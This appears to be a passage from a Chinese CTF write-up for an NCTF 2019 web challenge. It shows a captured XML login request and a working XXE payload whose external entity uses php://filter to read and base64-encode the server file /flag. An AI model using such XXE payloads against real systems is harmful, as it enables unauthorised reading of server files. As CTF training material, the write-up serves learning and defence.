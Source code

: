 ```
```

用XML和服务器通讯，联想到XXE攻击

burp抓post包得到

```
POST /doLogin.php HTTP/1.1
Host: nctf2019.x1ct34m.com:40002
Content-Length: 207
Accept: application/xml, text/xml, */*; q=0.01
Origin: http://nctf2019.x1ct34m.com:40002
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
DNT: 1
Content-Type: application/xml;charset=UTF-8
Referer: http://nctf2019.x1ct34m.com:40003/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

<user><username>admin</username><password>123</password></user>
```

根据js脚本可以发现username是可以回显的

然后构造一下exp

```
POST /doLogin.php HTTP/1.1
Host: nctf2019.x1ct34m.com:40002
Content-Length: 207
Accept: application/xml, text/xml, */*; q=0.01
Origin: http://nctf2019.x1ct34m.com:40002
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
DNT: 1
Content-Type: application/xml;charset=UTF-8
Referer: http://nctf2019.x1ct34m.com:40003/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
 <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
 ]>

<user><username>&xxe;</username><password>123</password></user>
```
### True XML cookbook
